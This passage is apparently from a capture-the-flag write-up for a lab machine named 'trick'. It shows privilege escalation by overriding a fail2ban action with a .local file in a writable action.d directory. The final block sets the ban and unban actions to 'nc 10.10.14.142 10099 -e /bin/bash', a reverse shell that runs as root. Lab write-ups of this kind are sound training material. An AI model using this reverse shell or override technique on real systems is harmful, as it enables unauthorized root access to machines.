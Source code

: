 ```
michael@trick:~$ fail2ban-client  -V
Fail2Ban v0.10.2

Copyright (c) 2004-2008 Cyril Jaquier, 2008- Fail2Ban Contributors
Copyright of modifications held by their respective authors.
Licensed under the GNU General Public License v2 (GPL).

michael@trick:/etc/fail2ban/action.d$ ps -aux | grep root | grep -v '\[' | grep fail
root       2304  0.0  1.0 250992 21812 ?        Ssl  22:58   0:01 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
```

Enumerated fail2ban configurations:

```
michael@trick:~$ find /etc/fail2ban/ -writable
/etc/fail2ban/action.d

michael@trick:/etc/fail2ban$ ls -al
total 76
drwxr-xr-x   6 root root      4096 Jul  4 23:15 .
drwxr-xr-x 126 root root     12288 Jul  4 22:26 ..
drwxrwx---   2 root security  4096 Jul  4 23:15 action.d
-rw-r--r--   1 root root      2334 Jul  4 23:15 fail2ban.conf
drwxr-xr-x   2 root root      4096 Jul  4 23:15 fail2ban.d
drwxr-xr-x   3 root root      4096 Jul  4 23:15 filter.d
-rw-r--r--   1 root root     22908 Jul  4 23:15 jail.conf
drwxr-xr-x   2 root root      4096 Jul  4 23:15 jail.d
-rw-r--r--   1 root root       645 Jul  4 23:15 paths-arch.conf
-rw-r--r--   1 root root      2827 Jul  4 23:15 paths-common.conf
-rw-r--r--   1 root root       573 Jul  4 23:15 paths-debian.conf
-rw-r--r--   1 root root       738 Jul  4 23:15 paths-opensuse.conf
```

## Remote Code Execution through fail2ban action files

From the official documentation of fail2ban: [MANUAL 0 8](https://www.fail2ban.org/wiki/index.php/MANUAL_0_8)

> **Every .conf file can be overridden with a file named .local.** The .conf file is read first, then .local, with later settings overriding earlier ones. Thus, a .local file doesn't have to include everything in the corresponding .conf file, only those settings that you wish to override.> 

Since we have write access to the action.d/ directory, we can inject a malicious .local file containing our custom code that will be execute with high privileges.

Similar PoC: [Privilege Escalation via fail2ban](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/)

Overwrote the iptables-multiport.conf file with a custom .local one and restarted the server to activate new rules:

```
michael@trick:/etc/fail2ban$ cp /etc/fail2ban/action.d/iptables-multiport.conf /dev/shm/iptables-multiport.local
michael@trick:/etc/fail2ban$ /dev/shm/iptables-multiport.local
...
actionban = nc 10.10.14.142 10099 -e /bin/bash
actionunban = nc 10.10.14.142 10099 -e /bin/bash

[Init]
name = default
port = ssh
protocol = tcp
chain = INPUT

```